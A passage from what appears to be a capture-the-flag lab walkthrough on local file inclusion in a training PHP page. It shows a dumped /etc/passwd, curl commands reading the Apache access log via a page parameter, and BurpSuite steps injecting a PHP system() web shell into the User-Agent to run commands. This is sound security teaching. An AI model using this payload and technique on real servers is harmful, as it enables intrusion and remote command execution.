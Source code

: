 kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Remote Code Execution and Log Poisoning using LFI

### References
- [Log Injection](https://owasp.org/www-community/attacks/Log_Injection){:target="_blank"}
- [File Inclusion Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion){:target="_blank"}


To access the third walkthrough, use `curl http://<ip>/lfi/lfi.php`.
A response will be obtained as,
{% capture code %}{% raw %}File included: <br><br><br>
Local file to be used: <br><br>{% endraw %}{% endcapture %} {% include code.html code=code %}

To read contents of `/var/log/apache2/access.log` using `?page=` parameter, use `curl 'http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log'`.
Run the command multiple times, as the log entry will be created after execution, and one consecutive commands reveals previous log entries.

An output similar will be obtained.
{% capture code %}{% raw %}File included: /var/log/apache2/access.log<br><br><br>
Local file to be used: /var/log/apache2/access.log<br><br>
<source> - - [23/Dec/2020:00:10:24 -0800] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 286 "-" "curl/7.64.0"{% endraw %}{% endcapture %} {% include code.html code=code %}


### Log poison using BurpSuite

### References
- [Burpsuite Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-burpsuite){:target="_blank"}


Instructions on setting up BurpSuite can be found [here](https://blog.tryhackme.com/setting-up-burp/){:target="_blank"}

- Open the url `http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log` once in browser.
- Fire up BurpSuite.
- Set proxy in browser to 127.0.0.1:8080.
- Make sure intercept is on in BurpSuite.
- Reload the page in browser and wait for request to be intercepted in BurpSuite.
- Modify the User-Agent `Mozilla/5.0 <?php system($_GET[\'lfi\']); ?> Firefox/78.0` in BurpSuite intercept page.
- Forward the request back to browser.
- Modify the url `http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r` in browser, and repeat the BurpSuite User-Agent modification and request forwarding.
- The response will contain the contents of `/var/log/apache2/access.log`, but the command output will be visible between `Mozilla/5.0  Firefox/78.0` of the injected log entries.
